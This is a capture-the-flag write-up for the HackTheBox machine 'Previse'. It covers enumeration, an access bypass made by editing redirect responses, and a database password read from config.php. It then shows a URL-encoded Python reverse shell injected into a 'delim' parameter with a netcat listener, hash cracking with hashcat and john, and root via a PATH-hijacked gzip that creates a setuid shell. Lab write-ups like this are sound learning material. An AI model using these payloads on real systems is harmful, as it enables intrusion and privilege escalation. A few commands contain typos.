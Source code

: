 # Previse HackTheBox
![Pasted image 20210808114616](https://user-images.githubusercontent.com/5285547/128632748-0d83d51b-80c5-4183-8528-6d22eca06a25.png)


 Link: https://www.hackthebox.eu/home/machines/profile/373
 
 ## Enum
 
 Nmap 
 
 ```sh
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
 ```
 
 Ffuf
 
 ```
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
favicon.ico             [Status: 200, Size: 15406, Words: 15, Lines: 10]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
.                       [Status: 302, Size: 2801, Words: 737, Lines: 72]
status.php              [Status: 302, Size: 2966, Words: 749, Lines: 75]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
 ```
 
Curl

```
curl http://10.129.156.76/files.php
```
 
![Pasted image 20210808115843](https://user-images.githubusercontent.com/5285547/128632797-ed5818f5-951e-43e3-bb43-58e0a6b8ca89.png)

 
So it seems we can access parts of the site with a fwe tricks. Testing further showed I can capture the request from nav.php and then change the response from a 302 to 200 to access the account page. 

Clicking on Do Intercept > Response to this request. 

![Pasted image 20210808120901](https://user-images.githubusercontent.com/5285547/128632802-e071cb54-d5b7-4841-bf0b-eaee33fff54f.png)

Change the 302 to 200

![Pasted image 20210808120931](https://user-images.githubusercontent.com/5285547/128632807-4ef85fe3-ab62-41dd-82f8-3f6d97b12a4d.png)

Create a new user and use the same tatics for capturing the request and editing the response. 

![Pasted image 20210808121122](https://user-images.githubusercontent.com/5285547/128632809-9c070d26-6f1f-4b30-8439-e95d17449f9c.png)

Then login with the new account. 

![Pasted image 20210808121244](https://user-images.githubusercontent.com/5285547/128632811-6dfb5364-f548-4c8a-b0cb-852664cd5fdd.png)

Files. 

config.php

```
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```

logs.phg

![Pasted image 20210808122858](https://user-images.githubusercontent.com/5285547/128632824-737e312c-6a55-4b6c-bb12-5157c38f3119.png)

In logs.php we can ssee the developer had to use python instead of PHP for the delimiters for ease of use and this also looks vunerable to command injection. 

## User

Reverse shell.

To get a reverse shell. Login as your new user, goto the Management menu > logs. 

Capture the request in burp and add a python reverse shell to the delim attribute. 

```
delim=comma;python3+-c+'import+os,pty,socket%3bs%3dsocket.socket()%3bs.connect(("10.10.14.250",9999))%3b[os.dup2(s.fileno(),f)for+f+in(0,1,2)]%3bpty.spawn("/bin/bash")'
```

![Pasted image 20210808122549](https://user-images.githubusercontent.com/5285547/128632831-3944e2f8-bce1-42e7-9d06-24828f3194cc.png)

Have your netcat listner ready! 

```sh
rlwrap -cAr nc -lnvp 9999
```

### mysql

Let's get any info and hash's from the database. 

```sql
mysql -u root -p
pass:mySQL_p@ssw0rd!:)

show databases;
use previse;
show tables;

select * from accounts;
```

![Pasted image 20210808132042](https://user-images.githubusercontent.com/5285547/128632834-98e360e5-bda9-49a9-8580-ab847e84ece8.png)

Cracking the hash

hashcat

```bash
hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt -O
```

john

```bash
john -format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```sh
m4lwhere:<REDACTED>
```

Time to SSH into the box for a better shell. 

```sh
ssh m4lwhere@IP
```

## Root

![Pasted image 20210808134325](https://user-images.githubusercontent.com/5285547/128632874-a05a0c64-f288-4bb6-81cc-8646d3edfbcb.png)

Let's try some path abuse for gzip.

```sh
cd /tmp
cat << EOF > gzip
> #!/bin/bash
> cp /bin/bash /tmp/c             
> chmod u+s /tmp/c
> EOF
chmod +x gzip
export PATH=/tmp:PATH
```

```sh
sudo /opt/scripts/access_backup.sh
/tmp./c -p
```

![Pasted image 20210808135613](https://user-images.githubusercontent.com/5285547/128632869-a510ef67-f3c9-45cd-a21e-add95c04b502.png)
